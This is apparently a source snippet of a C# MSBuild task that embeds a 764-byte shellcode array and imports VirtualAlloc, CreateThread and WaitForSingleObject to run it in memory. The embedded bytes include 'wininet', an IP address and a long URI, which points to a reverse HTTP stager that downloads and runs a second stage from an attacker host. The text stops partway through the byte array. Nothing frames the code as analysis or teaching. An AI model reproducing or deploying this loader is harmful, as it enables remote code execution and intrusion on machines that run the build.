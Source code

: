 ```
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {      
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
          IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

          public override bool Execute()
          {
            byte[] buf = new byte[764] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x51,0x48,0x8b,
0x52,0x20,0x56,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x48,
0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x41,0x51,0x66,
0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50,
0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,
0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,
0x69,0x6e,0x69,0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,0xe1,
0x49,0xc7,0xc2,0x4c,0x77,0x26,0x07,0xff,0xd5,0x53,0x53,0x48,
0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,
0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,0xd5,
0xe8,0x0f,0x00,0x00,0x00,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,
0x2e,0x34,0x35,0x2e,0x31,0x39,0x31,0x00,0x5a,0x48,0x89,0xc1,
0x49,0xc7,0xc0,0x05,0x0d,0x00,0x00,0x4d,0x31,0xc9,0x53,0x53,
0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,0x00,0x00,
0x00,0xff,0xd5,0xe8,0xd1,0x00,0x00,0x00,0x2f,0x47,0x6c,0x45,
0x37,0x5f,0x34,0x69,0x73,0x33,0x2d,0x48,0x79,0x46,0x66,0x4d,
0x58,0x6c,0x57,0x39,0x55,0x73,0x67,0x62,0x38,0x33,0x71,0x2d,
0x57,0x65,0x56,0x2d,0x52,0x72,0x68,0x4e,0x42,0x65,0x46,0x5f,
0x33,0x41,0x74,0x49,0x63,0x67,0x53,0x42,0x4f,0x57,0x66,0x59,
0x61,0x39,0x6e,0x4a,0x38,0x5f,0x54,0x4a,0x4f,0x44,0x74,0x49,
0x57,0x55,0x74,0x50,0x6e,0x6e,0x43,0x59,0x32,0x6f,0x52,0x35,
0x46,0x41,0x33,0x41,0x56,0x67,0x74,0x4e,0x30,0x6c,0x30,0x4e,
0x4d,0x53,0x66,0x42,0x78,0x79,0x66,0x33,0x53,0x72,0x39,0x78,
0x47,0x6e,0x53,0x43,0x57,0x78,0x67,0x30,0x64,0x67,0x51,0x48,
0x65,0x53,0x59,0x79,0x64,0x78,0x56,0x5a,0x66,0x2d,0x33,0x47,
0x71,0x56,0x36,0x51,0x61,0x36,0x4c,0x6e,0x41,0x64,0x6b,0x52,
0x63,0x32,0x44,0x67,0x43,0x55,0x33,0x54,0x74,0x4f,0x4c,0x61,
0x5f,0x62,0x71,0x33,0x78,0x46,0x64,0x68,0x43,0x50,0x53,0x37,
0x30,0x32,0x32,0x39,0x6c,0x44,0x76,0x46,0x74,0x56,0x2d,0x63,
0x47,0x61,0x44,0x50,0x31,0x77,0x6a,0x49,0x51,0x4d,0x70,0x39,
0x59,0x45,0x69,0x4a,0x49,0x76,0x49,0x7a,0x37,0x6d,0x6a,0x58,
0x5f,0x6e,0x42,0x50,0x69,0x4f,0x56,0x57,0x6e,0x45,0x52,0x72,
0x00,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,
0x48,0xb8,0x00,0x32,0xa8,0x84,0x00,0x00,0x00,0x00,0x50,0x53,
```
